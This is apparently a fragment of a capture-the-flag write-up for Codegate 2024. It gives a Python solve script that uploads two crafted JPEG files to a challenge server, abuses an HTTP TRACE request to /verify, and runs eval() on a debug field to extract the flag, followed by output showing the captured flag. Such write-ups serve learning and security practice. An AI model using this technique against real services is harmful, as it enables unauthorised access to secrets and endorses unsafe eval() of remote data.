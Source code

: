 ```py
with open("imageB.jpeg", "wb") as f:
    f.write(output.read())
    
    
from requests import *

url = 'http://43.201.116.50:3456'

s = Session()

res = s.post(url+'/upload', files={'file-a': open('imageA.jpeg', 'rb'), 'file-b': open('imageB.jpeg', 'rb')})
print(res.text)

res = s.request('TRACE', url+'/verify')
print(eval(res.json()['debug'])['FLAG'])
```

```console
exon@DESKTOP-541R960:/combination$ python3 ex.py
{"message":"Files successfully uploaded and validated"}

codegate2024{e46fe4abeff3affa1a3f37f4b555345dc342b1a6}
```
